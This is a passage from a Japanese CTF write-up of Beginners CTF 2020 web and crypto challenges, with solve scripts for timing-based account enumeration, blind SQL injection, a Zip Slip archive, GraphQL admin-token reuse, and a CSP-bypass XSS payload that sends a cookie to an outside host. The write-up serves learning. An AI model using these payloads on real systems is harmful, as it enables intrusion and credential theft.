









5 月 23 日から 5 月 24 日にかけて開催された [Bginners CTF 2020](https://score.beginners.seccon.jp/) に、ひとりチーム[広](https://www.hai-furi.com/character/04_06/)[田](https://www.youtube.com/watch?v=W_0uEv94CpU)[空](https://harekaze.com/)として参加しました。最終的に 4233 点を獲得し、順位は 50 点以上得点した 1009 チーム中 10 位でした。

以下、私が解いた問題の write-up (Pwn 除く) です。

## [Web 55] Spy (441 solves)
> As a spy, you are spying on the "ctf4b company".
> 
> You got the name-list of employees and the URL to the in-house web tool used by some of them.
> 
> Your task is to enumerate the employees who use this tool in order to make it available for social engineering.
> 
> 添付ファイル: 
> - app.py
> - employees.txt

`app.py` は以下のような内容でした。

```python
import os
import time

from flask import Flask, render_template, request, session

# Database and Authentication libraries (you can't see this :p).
import db
import auth

# ====================

app = Flask(__name__)
app.SALT = os.getenv("CTF4B_SALT")
app.FLAG = os.getenv("CTF4B_FLAG")
app.SECRET_KEY = os.getenv("CTF4B_SECRET_KEY")

db.init()
employees = db.get_all_employees()

# ====================

@app.route("/", methods=["GET", "POST"])
def index():
    t = time.perf_counter()

    if request.method == "GET":
        return render_template("index.html", message="Please login.", sec="{:.7f}".format(time.perf_counter()-t))
    
    if request.method == "POST":
        name = request.form["name"]
        password = request.form["password"]

        exists, account = db.get_account(name)

        if not exists:
            return render_template("index.html", message="Login failed, try again.", sec="{:.7f}".format(time.perf_counter()-t))

        # auth.calc_password_hash(salt, password) adds salt and performs stretching so many times.
        # You know, it's really secure... isn't it? :-)
        hashed_password = auth.calc_password_hash(app.SALT, password)
        if hashed_password != account.password:
            return render_template("index.html", message="Login failed, try again.", sec="{:.7f}".format(time.perf_counter()-t))

        session["name"] = name
        return render_template("dashboard.html", sec="{:.7f}".format(time.perf_counter()-t))

# ====================

@app.route("/challenge", methods=["GET", "POST"])
def challenge():
    t = time.perf_counter()
    
    if request.method == "GET":
        return render_template("challenge.html", employees=employees, sec="{:.7f}".format(time.perf_counter()-t))

    if request.method == "POST":
        answer = request.form.getlist("answer")

        # If you can enumerate all accounts, I'll give you FLAG!
        if set(answer) == set(account.name for account in db.get_all_accounts()):
            message = app.FLAG
        else:
            message = "Wrong!!"
        
        return render_template("challenge.html", message=message, employees=employees, sec="{:.7f}".format(time.perf_counter()-t))

# ====================

if __name__ == '__main__':
    db.init()
    app.run(host=os.getenv("CTF4B_HOST"), port=os.getenv("CTF4B_PORT"))
```

重要そうなところを抜き出してみます。

```python
@app.route("/", methods=["GET", "POST"])
def index():
    ︙
    if request.method == "POST":
        name = request.form["name"]
        password = request.form["password"]

        exists, account = db.get_account(name)

        if not exists:
            return render_template("index.html", message="Login failed, try again.", sec="{:.7f}".format(time.perf_counter()-t))

        # auth.calc_password_hash(salt, password) adds salt and performs stretching so many times.
        # You know, it's really secure... isn't it? :-)
        hashed_password = auth.calc_password_hash(app.SALT, password)
        if hashed_password != account.password:
            return render_template("index.html", message="Login failed, try again.", sec="{:.7f}".format(time.perf_counter()-t))
```

フォームから入力したユーザ名が存在している場合に限り、激重なパスワードのチェック処理を行うようです。ユーザが存在しなければこの激重な処理は行われませんから、(`time.perf_counter()-t` によって計算されている) レスポンスにかかった時間を見るだけで、あるユーザが存在しているかどうかが確認できそうです。でも、知って嬉しいことはあるのでしょうか。

```python
@app.route("/challenge", methods=["GET", "POST"])
def challenge():
︙
    if request.method == "POST":
        answer = request.form.getlist("answer")

        # If you can enumerate all accounts, I'll give you FLAG!
        if set(answer) == set(account.name for account in db.get_all_accounts()):
            message = app.FLAG
```

存在しているユーザ名の全てを答えるとフラグがもらえるページがあるようです。なるほど、これなら存在しているユーザの一覧を知る意味がありそうです。ソースコードと一緒に与えられた `employees.txt` はこの会社の社員の名前のようですから、これを元にどの社員がアカウントを持っているかチェックしてみましょう。

```python
import requests
import time

THRESHOLD = 0.3
URL = 'https://(省略)/'

with open('employees.txt') as f:
  employees = [line.strip() for line in f.readlines()]

for employee in employees:
  t = time.time()
  requests.post(URL, data={'name': employee, 'password': 'neko'})
  if time.time() - t > THRESHOLD:
    print(employee)
```

```
$ python3 solve.py
Elbert
George
Lazarus
Marc
Tony
Ximena
Yvonne
```

この 7 人がアカウントを持っていることがわかりました。`/challenge` にアクセスしてアカウントを持っている全ての社員にチェックを入れるとフラグが得られました。



```
ctf4b{4cc0un7_3num3r4710n_by_51d3_ch4nn3l_4774ck}
```

## [Web 150] Tweetstore (150 solves)
> Search your flag!
> 
> Server: https://(省略)/
> 
> 添付ファイル: webserver.go

以下のような Go コードが与えられました。

```go
package main

import (
	"context"
	"fmt"
	"log"
	"os"
	"strings"
	"time"
	
	"database/sql"
	"html/template"
	"net/http"

	"github.com/gorilla/handlers"
	"github.com/gorilla/mux"

	_"github.com/lib/pq"
)

var tmplPath = "./templates/"

var db *sql.DB

type Tweets struct {
	Url        string
	Text       string
	Tweeted_at time.Time
}

func handler_index(w http.ResponseWriter, r *http.Request) {

	tmpl, err := template.ParseFiles(tmplPath + "index.html")
	if err != nil {
		log.Fatal(err)
	}

	var sql = "select url, text, tweeted_at from tweets"

	search, ok := r.URL.Query()["search"]
	if ok {
		sql += " where text like '%" + strings.Replace(search[0], "'", "\\'", -1) + "%'"
	}

	sql += " order by tweeted_at desc"

	limit, ok := r.URL.Query()["limit"]
	if ok && (limit[0] != "") {
		sql += " limit " + strings.Split(limit[0], ";")[0]
	}

	var data []Tweets


	ctx, cancel := context.WithTimeout(context.Background(), 1*time.Second)
	defer cancel()

	rows, err := db.QueryContext(ctx, sql)
	if err != nil{
		log.Fatal(err)
	}

	for rows.Next() {
		var text string
		var url string
		var tweeted_at time.Time

		err := rows.Scan(&url, &text, &tweeted_at)
		if err != nil {
			log.Fatal(err)
		}
		data = append(data, Tweets{url, text, tweeted_at})
	}

	tmpl.Execute(w, data)
}

func initialize() {
	var err error

	dbname := "ctf"
	dbuser := os.Getenv("FLAG")
	dbpass := "password"

	connInfo := fmt.Sprintf("port=%d host=%s user=%s password=%s dbname=%s sslmode=disable", 5432, "db", dbuser, dbpass, dbname)
	db, err = sql.Open("postgres", connInfo)
	if err != nil {
		log.Fatal(err)
	}
}

func main() {

	var err error

	initialize()
	logFile, err := os.OpenFile("/log/access_log", os.O_APPEND|os.O_WRONLY|os.O_CREATE, 0640)
	if err != nil {
		log.Fatal(err)
	}

	r := mux.NewRouter()
	r.HandleFunc("/", handler_index).Methods("GET")

	http.Handle("/", r)
	http.ListenAndServe(":8080", handlers.LoggingHandler(logFile, http.DefaultServeMux))
}
```

まずはフラグの場所を確認しましょう。

```go
func initialize() {
	var err error

	dbname := "ctf"
	dbuser := os.Getenv("FLAG")
	dbpass := "password"

	connInfo := fmt.Sprintf("port=%d host=%s user=%s password=%s dbname=%s sslmode=disable", 5432, "db", dbuser, dbpass, dbname)
	db, err = sql.Open("postgres", connInfo)
	if err != nil {
		log.Fatal(err)
	}
}
```

ユーザ名がフラグのようです。`sql.Open("postgres", connInfo)` から PostgreSQL が使われていることもわかります。

脆弱性がないか探してみましょう。

```go
func handler_index(w http.ResponseWriter, r *http.Request) {
︙
	var sql = "select url, text, tweeted_at from tweets"

	search, ok := r.URL.Query()["search"]
	if ok {
		sql += " where text like '%" + strings.Replace(search[0], "'", "\\'", -1) + "%'"
	}

	sql += " order by tweeted_at desc"

	limit, ok := r.URL.Query()["limit"]
	if ok && (limit[0] != "") {
		sql += " limit " + strings.Split(limit[0], ";")[0]
	}
︙
	rows, err := db.QueryContext(ctx, sql)
	if err != nil{
		log.Fatal(err)
	}
︙
}
```

`limit` 句に `'` を置換するような処理がなされないままユーザ入力が挿入されています。PostgreSQL では `limit` 句でサブクエリを利用できますから、ここで `(CASE WHEN x > 123 THEN 1 ELSE 0 END)` のようにある条件に当てはまる場合には `1` を、そうでない場合には `0` を返すような処理をさせれば、返ってきたレコードの件数を見るだけでその条件の真偽がわかります。Blind SQLi チャンスです。

PostgreSQL では `SELECT user` でユーザ名が取得できることを利用して、1 ビットずつ情報を取り出していきましょう。

```python
import requests
URL = 'https://(省略)/?search=1&limit='
BASE = '(select%20ascii(substr(user,{},1))%26{})'

res = ''
i = 1
while True:
  c = 0

  for j in range(7):
    req = requests.get(URL + BASE.format(i, 1 << j))
    if 'Watch@Twitter' in req.text:
      c |= 1 << j

  res += chr(c)
  print(res)
  i += 1
```

```
$ python3 solve.py
︙
ctf4b{is_postgres_your_friend
ctf4b{is_postgres_your_friend?
ctf4b{is_postgres_your_friend?}
```

フラグが得られました。

```
ctf4b{is_postgres_your_friend?}
```

## [Web 188] unzip (118 solves)
> Unzip Your .zip Archive Like a Pro.
> 
> https://(省略)/
> 
> 添付ファイル: index.php

以下のような PHP コードが与えられました。

```php
<?php
error_reporting(0);
session_start();

// prepare the session
$user_dir = "/uploads/" . session_id();
if (!file_exists($user_dir))
    mkdir($user_dir);

if (!isset($_SESSION["files"]))
    $_SESSION["files"] = array();

// return file if filename parameter is passed
if (isset($_GET["filename"]) && is_string(($_GET["filename"]))) {
    if (in_array($_GET["filename"], $_SESSION["files"], TRUE)) {
        $filepath = $user_dir . "/" . $_GET["filename"];
        header("Content-Type: text/plain");
        echo file_get_contents($filepath);
        die();
    } else {
        echo "no such file";
        die();
    }
}

// process uploaded files
$target_file = $target_dir . basename($_FILES["file"]["name"]);
if (isset($_FILES["file"])) {
    // size check of uploaded file
    if ($_FILES["file"]["size"] > 1000) {
        echo "the size of uploaded file exceeds 1000 bytes.";
        die();
    }

    // try to open uploaded file as zip
    $zip = new ZipArchive;
    if ($zip->open($_FILES["file"]["tmp_name"]) !== TRUE) {
        echo "failed to open your zip.";
        die();
    }


    // check the size of unzipped files
    $extracted_zip_size = 0;
    for ($i = 0; $i < $zip->numFiles; $i++)
        $extracted_zip_size += $zip->statIndex($i)["size"];

    if ($extracted_zip_size > 1000) {
        echo "the total size of extracted files exceeds 1000 bytes.";
        die();
    }

    // extract
    $zip->extractTo($user_dir);

    // add files to $_SESSION["files"]
    for ($i = 0; $i < $zip->numFiles; $i++) {
        $s = $zip->statIndex($i);
        if (!in_array($s["name"], $_SESSION["files"], TRUE)) {
            $_SESSION["files"][] = $s["name"];
        }
    }

    $zip->close();
}
?>

<!DOCTYPE html>
<html>

<head>
    <link href="https://fonts.googleapis.com/icon?family=Material+Icons" rel="stylesheet">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/materialize/1.0.0/css/materialize.min.css">

    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title></title>
</head>

<body>
    <nav role="navigation">
        <div class="nav-wrapper container">
            <a id="logo-container" href="/" class="brand-logo">Unzip</a>
        </div>
    </nav>


    <div class="container">
        <br><br>
        <h1 class="header center teal-text text-lighten-2">Unzip</h1>
        <div class="row center">
            <h5 class="header col s12 light">
                Unzip Your .zip Archive Like a Pro
            </h5>
        </div>
    </div>
    </div>


    <div class="container">
        <div class="section">
            <h2>Upload</h2>
            <form method="post" enctype="multipart/form-data">
                <div class="file-field input-field">
                    <div class="btn">
                        <span>Select .zip to Upload</span>
                        <input type="file" name="file">
                    </div>
                    <div class="file-path-wrapper">
                        <input class="file-path validate" type="text">
                    </div>
                </div>
                <button class="btn waves-effect waves-light">
                    Submit
                    <i class="material-icons right">send</i>
                </button>
            </form>
        </div>
    </div>

    <div class="container">
        <div class="section">
            <h2>Files from Your Archive(s)</h2>
            <div class="collection">
                <?php foreach ($_SESSION["files"] as $filename) { ?>
                    <a href="/?filename=<?= urlencode($filename) ?>" class="collection-item"><?= htmlspecialchars($filename, ENT_QUOTES, "UTF-8") ?></a>
                <? } ?>
            </div>
        </div>
    </div>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/materialize/1.0.0/js/materialize.min.js"></script>
</body>

</html>
```

ZIP ファイルを与えると `/uploads/(セッション ID)` に展開してくれる Web アプリケーションのようです。

展開後はセッションデータとして `$_SESSION["files"]` にファイル名を格納しています。`index.php?filename=(ファイル名)` にアクセスした際に、`$_SESSION["files"]` にそのファイル名があればそのファイルを読み出して出力するようです。

ZIP ファイルに `../../../../../etc/passwd` のような名前のファイルがあった場合にはどうなるのでしょうか。いわゆる [Zip Slip](https://github.com/snyk/zip-slip-vulnerability) のようなことになると嬉しいのですが。とりあえず試してみましょう。

`aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa` のような名前のファイルを ZIP に格納し、バイナリエディタで ZIP ファイルを開いてファイル名の部分を `/../../../../../../../flag.txt` に置き換えます。

```
$ xxd payload.zip
0000000: 504b 0304 1400 0000 0000 567a b750 0000  PK........Vz.P..
0000010: 0000 0000 0000 0000 0000 2000 0000 2e2e  .......... .....
0000020: 2f2e 2e2f 2e2e 2f2e 2e2f 2e2e 2f2e 2e2f  /../../../../../
0000030: 2e2e 2f2e 2e2f 666c 6167 2e74 7874 504b  ../../flag.txtPK
0000040: 0102 1400 1400 0000 0000 567a b750 0000  ..........Vz.P..
0000050: 0000 0000 0000 0000 0000 2000 0000 0000  .......... .....
0000060: 0000 0000 0000 b681 0000 0000 2e2e 2f2e  ............../.
0000070: 2e2f 2e2e 2f2e 2e2f 2e2e 2f2e 2e2f 2e2e  ./../../../../..
0000080: 2f2e 2e2f 666c 6167 2e74 7874 504b 0506  /../flag.txtPK..
0000090: 0000 0000 0100 0100 4e00 0000 3e00 0000  ........N...>...
00000a0: 0000
```

こうしてできた `payload.zip` をアップロードし、`/?filename=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fflag.txt` にアクセスするとフラグが得られました。

```
ctf4b{y0u_c4nn07_7ru57_4ny_1npu75_1nclud1n6_z1p_f1l3n4m35}
```

## [Web 301] profiler (59 solves)
> Let's edit your profile with profiler!
> 
> Hint: You don't need to deobfuscate *.js

与えられた URL にアクセスすると、以下のようにユーザの登録フォームとログインフォームが表示されました。



適当なユーザ名で登録してみると、謎のトークンが発行されました。



ログインすると (XSS はできないけど) 好きな内容に変更できるプロフィールページが表示されました。



`Get FLAG` というボタンを押せばフラグが得られそうに思えますが、そう簡単にはいきません。`Sorry, your token is not administrator's one. This page is only for administrator(uid: admin).` と怒られてしまいました。ログインしているユーザのトークンが、UID が `admin` であるユーザのトークンと同じでないと表示してくれないようです。

Google Chrome の DevTools を開いて Network タブを眺めていると、`/api` に以下のような JSON を POST している様子が確認できました。

```json
{"query":"query {\n    flag\n  }"}
```

GraphQL を使っているようです。[prisma-labs/get-graphql-schema](https://github.com/prisma-labs/get-graphql-schema) で GraphQL スキーマを取得してみましょう。

```
$ get-graphql-schema https://(省略)/api
type Mutation {
  updateProfile(profile: String!, token: String!): Boolean!
  updateToken(token: String!): Boolean!
}

type Query {
  me: User!
  someone(uid: ID!): User
  flag: String!
}

type User {
  uid: ID!
  name: String!
  profile: String!
  token: String!
}
```

`updateProfile` と `updateToken` というミューテーションが存在しています。前者はプロフィールを更新するのに使われるのでしょうが、後者はなんでしょうか。名前から推測するにトークンを指定したものに更新できるのでしょうか。

また、クエリでは `someone(uid: "user")` のようにすることで `user` という UID を持つユーザの情報を入手できそうです。これで `admin` の情報を取得してみましょう。

```
$ curl 'https://(省略)/api' \
>   -H 'content-type: application/json' \
>   -H 'Cookie: session=(省略)' \
>   --data-binary '{"query":"query {\n    someone(uid: '"\\\"admin\\\""') {\n      uid\n      name\n      profile\n      token\n    }\n  }"}'
{"data":{"someone":{"name":"admin","profile":"Hello, I'm admin.","token":"743fb96c5d6b65df30c25cefdab6758d7e1291a80434e0cdbb157363e1216a5b","uid":"admin"}}}
```

`admin` のトークンが `743fb96c5d6b65df30c25cefdab6758d7e1291a80434e0cdbb157363e1216a5b` であるとわかりました。

先程得られた `updateToken` というミューテーションを使って今ログインしているユーザのトークンをこれに変えられないでしょうか。やってみましょう。

```
$ curl 'https://(省略)/api' \
>   -H 'content-type: application/json' \
>   -H 'Cookie: session=(省略)' \
>   --data-binary $'{"query":"mutation {\\n    updateToken(token: \\"743fb96c5d6b65df30c25cefdab6758d7e1291a80434e0cdbb157363e1216a5b\\")\\n  }"}'
{"data":{"updateToken":true}}
```

できたようです。このまま `/flag` にアクセスするとフラグが得られました。

```
ctf4b{plz_d0_n07_4cc3p7_1n7r05p3c710n_qu3ry}
```

## [Web 421] Somen (20 solves)
> Somen is tasty.
> 
> - https://(省略)
> 
> 添付ファイル:
> - worker.js
> - index.php

与えられた URL にアクセスすると、簡素なデザインの Web ページが表示されました。[昨年のラーメン](2019-05-26-beginners-ctf.html#warmup-ramen-73)といいこの問題といい、麺類が好きなのでしょうか。私も好きです。



名前の入力を求められているようなので、書いて送ってみましょう。



流しそうめんを勧められました。

与えられたソースコードを見ていきましょう。`worker.js` は以下のような内容でした。

```javascript
const puppeteer = require('puppeteer');

/* ... ... */

// initialize
const browser = await puppeteer.launch({
    executablePath: 'google-chrome-unstable',
    headless: true,
    args: [
        '--no-sandbox',
        '--disable-background-networking',
        '--disk-cache-dir=/dev/null',
        '--disable-default-apps',
        '--disable-extensions',
        '--disable-gpu',
        '--disable-sync',
        '--disable-translate',
        '--hide-scrollbars',
        '--metrics-recording-only',
        '--mute-audio',
        '--no-first-run',
        '--safebrowsing-disable-auto-update',
    ],
});
const page = await browser.newPage();

// set cookie
await page.setCookie({
    name: 'flag',
    value: process.env.FLAG,
    domain: process.env.DOMAIN,
    expires: Date.now() / 1000 + 10,
});

// access
// username is the input value of players
const url = `https://(省略)/?username=${encodeURIComponent(username)}`;
try {
    await page.goto(url, {
        waitUntil: 'networkidle0',
        timeout: 5000,
    });
} catch (err) {
    console.log(err);
}

// finalize
await page.close();
await browser.close();

/* ... ... */
```

Cookie にフラグが入っているようです。HttpOnly フラグは設定されていませんから、JavaScript からも `document.cookie` で読み出せるはずです。

`index.php` は以下のような内容でした。

```php
<?php
$nonce = base64_encode(random_bytes(20));
header("Content-Security-Policy: default-src 'none'; script-src 'nonce-${nonce}' 'strict-dynamic' 'sha256-nus+LGcHkEgf6BITG7CKrSgUIb1qMexlF8e5Iwx1L2A='");
?>

<head>
    <title>Best somen for <?= isset($_GET["username"]) ? $_GET["username"] : "You" ?></title>

    <script src="/security.js" integrity="sha256-nus+LGcHkEgf6BITG7CKrSgUIb1qMexlF8e5Iwx1L2A="></script>
    <script nonce="<?= $nonce ?>">
        const choice = l => l[Math.floor(Math.random() * l.length)];

        window.onload = () => {
            const username = new URL(location).searchParams.get("username");
            const adjective = choice(["Nagashi", "Hiyashi"]);
            if (username !== null)
                document.getElementById("message").innerHTML = `${username}, I recommend ${adjective} somen for you.`;
        }
    </script>
</head>

<body>
    <h1>Best somen for You</h1>

    <p>Please input your name. You can use only alphabets and digits.</p>
    <p>This page works fine with latest Google Chrome / Chromium. We won't support other browsers :P</p>
    <p id="message"></p>
    <form action="/" method="GET">
        <input type="text" name="username" place="Your name"></input>
        <button type="submit">Ask</button>
    </form>
    <hr>

    <p> If your name causes suspicious behavior, please tell me that from the following form. Admin will acceess /?username=${encodeURIComponent(your input)} and see what happens.</p>
    <form action="/inquiry" method="POST">
        <input type="text" name="username" place="Your name"></input>
        <button type="submit">Ask</button>
    </form>

</body>
```

`Content-Security-Policy: default-src 'none'; script-src 'nonce-${nonce}' 'strict-dynamic' 'sha256-nus+LGcHkEgf6BITG7CKrSgUIb1qMexlF8e5Iwx1L2A='` と CSP が厳しめです。ただ、`strict-dynamic` が付与されているので、`nonce` が付与されて実行されている JavaScript コードや `security.js` 中に脆弱性があればなんとかなりそうです。

まず `security.js` を見てみたものの、どうやらこれはただ私たちの邪魔をするためだけに設置されているコードのようです。

```javascript
console.log('!! security.js !!');
const username = new URL(location).searchParams.get("username");
if (username !== null && ! /^[a-zA-Z0-9]*$/.test(username)) {
    document.location = "/error.php";
}
```

`a-zA-Z0-9` だけでは流石に任意の JavaScript コードを実行することはできません (ここに [`().` を追加すれば可能ですが :)](2019-05-21-harekaze-ctf-2019.html#misc-200-a-z) )。なんとかして無効化できないでしょうか。

この Web アプリケーションには XSS の注入箇所が 2 箇所あり、そのうちのひとつが `title` 要素内であることに注目します。この直後に `/security.js`、`nonce` 付きのふたつの `script` 要素が並んでいることを利用しましょう。

`/?username=</title><script>` で、以下のように `<script src="/security.js" integrity="sha256-nus+LGcHkEgf6BITG7CKrSgUIb1qMexlF8e5Iwx1L2A=">` 部分を JavaScript コードとして解釈させることができました。これで `/security.js` が実行されることはありません。

```html
<head>
    <title>Best somen for </title><script></title>

    <script src="/security.js" integrity="sha256-nus+LGcHkEgf6BITG7CKrSgUIb1qMexlF8e5Iwx1L2A="></script>
    <script nonce="FHnRMK/GC62ODRynO72fHYGsHj4=">
        const choice = l => l[Math.floor(Math.random() * l.length)];

        window.onload = () => {
            const username = new URL(location).searchParams.get("username");
            const adjective = choice(["Nagashi", "Hiyashi"]);
            if (username !== null)
                document.getElementById("message").innerHTML = `${username}, I recommend ${adjective} somen for you.`;
        }
    </script>
</head>
```

さて、ふたつめの注入箇所である

```javascript
document.getElementById("message").innerHTML = `${username}, I recommend ${adjective} somen for you.`;
```

からなんとかして JavaScript コードを実行できないでしょうか。`dynamic-strict` でググっていると、この CTF の運営者であるつばめさんが運営されている XSS Challenge の問題のひとつである [Case 23 の write-up](https://szarny.hatenablog.com/entry/2019/01/01/XSS_Challenge_%28%E3%82%BB%E3%82%AD%E3%83%A5%E3%83%AA%E3%83%86%E3%82%A3%E3%83%BB%E3%83%9F%E3%83%8B%E3%82%AD%E3%83%A3%E3%83%B3%E3%83%97_in_%E5%B2%A1%E5%B1%B1_2018_%E6%BC%94%E7%BF%92%E3%82%B3%E3%83%B3#Case-23-nonce--strict-dynamic) がヒットしました。

なるほど。この問題に合わせて説明すると、`message` という `id` 属性を持つ `script` を用意すれば、`p#message` より前に位置しているため `document.getElementById("message")` が `script#message` を返し、これに `` `${username}, I recommend ${adjective} somen for you.` `` が挿入されて JavaScript コードとして実行されるという仕組みのようです。

`/?username=alert(1)//</title><script%20id="message"></script><script>` にアクセスしてみるとアラートが表示されました。やった!

ということで、`document.getElementById('input').value=document.cookie;document.getElementById('form').submit()//</title><script id="message"></script><form id="form" action="https://(省略)"><input name="input" id="input"></form><script>` をペイロードとして提出するとフラグが得られました。

```
ctf4b{1_w0uld_l1k3_70_347_50m3n_b3f0r3_7ry1n6_70_3xpl017}
```

## [Crypto 52] R&B (500 solves)
> Do you like rhythm and blues?
> 
> 添付ファイル:
> - problem.py
> - encoded_flag

`problem.py` は以下のような内容でした。

```python
from os import getenv


FLAG = getenv("FLAG")
FORMAT = getenv("FORMAT")


def rot13(s):
    # snipped


def base64(s):
    # snipped


for t in FORMAT:
    if t == "R":
        FLAG = "R" + rot13(FLAG)
    if t == "B":
        FLAG = "B" + base64(FLAG)

print(FLAG)
```

至極単純なコードです。復号処理は 1 文字目が R であれば 2 文字目以降を切り取って ROT13、1 文字目が B であれば 2 文字目以降を切り取って Base64 デコードというのを繰り返せばよさそうです。

[CyberChef で頑張る](https://gchq.github.io/CyberChef/#recipe=Drop_bytes(0,1,false)From_Base64('A-Za-z0-9%2B/%3D',true)Drop_bytes(0,1,false)From_Base64('A-Za-z0-9%2B/%3D',true)Drop_bytes(0,1,false)ROT13(true,true,13)Drop_bytes(0,1,false)From_Base64('A-Za-z0-9%2B/%3D',true)Drop_bytes(0,1,false)ROT13(true,true,13)Drop_bytes(0,1,false)From_Base64('A-Za-z0-9%2B/%3D',true)Drop_bytes(0,1,false)ROT13(true,true,13)Drop_bytes(0,1,false)From_Base64('A-Za-z0-9%2B/%3D',true)Drop_bytes(0,1,false)From_Base64('A-Za-z0-9%2B/%3D',true)Drop_bytes(0,1,false)ROT13(true,true,13)Drop_bytes(0,1,false)From_Base64('A-Za-z0-9%2B/%3D',true)Drop_bytes(0,1,false)ROT13(true,true,13)Drop_bytes(0,1,false)From_Base64('A-Za-z0-9%2B/%3D',true)Drop_bytes(0,1,false)ROT13(true,true,13)&input=QlFsVnJPVWxsUkd4WFkyeEdOVkp1UWpSa1ZGWjVVMFZWTUdOVlpFcGlSVnBUWlZaYWRtUXdPV2hUVkVJeFRraEtURk5XU2tkV1JVWklVbFJHV0ZVd1JrbFVWbHBKVFZoR2MxTkZhREZhVlZZMVVrZDBSazFxYkRGU00zQnVWakZ3TkdWWFZrZFdXRVpZVTBSQ1RsZEZaM2RSVm1SNVZWWk9UR05HU2pGVE1qUjZWakJXU0Uxck1WUlhhazVLVjFoQ1RHVllaRXBsUjNCelkwVnNhbUpGYUdobFYwcEdVakZPVUZORVFrNVdhMXBJVkZaYVlWVnFSbTlUYlVacVdWaEtVMk5WYUVsTk0wWlRZMjVrU1UxVldsSlVNa1pKVldzeFYxTkVTakZoVm5CVlkwZDBSMU5JVlhoVVZFSjRUbXN3ZUZZeWVFZE5WVVV4VWxSQ05WSXdhM2RqVm1STllsVkdjbEpVUVhoVVJWWklWR3BXUjFaVk9WcGphMng0VVZad1ZWRlVSa1pWYmxaWVlteE9hV0ZyUmt0VFZsSkpXVmhzVEZKRmJGaFJWVVkwVWxaa1NrMVlSbFJpTUdjd1RsRTlQUT09)とフラグが得られました。

```
ctf4b{rot_base_rot_base_rot_base_base}
```

## [Crypto 261] Noisy equations (76 solves)
> noise hides flag.
> 
> nc (省略)
> 
> 添付ファイル: problem.py

`problem.py` は以下のような内容でした。

```python
from os import getenv
from time import time
from random import getrandbits, seed


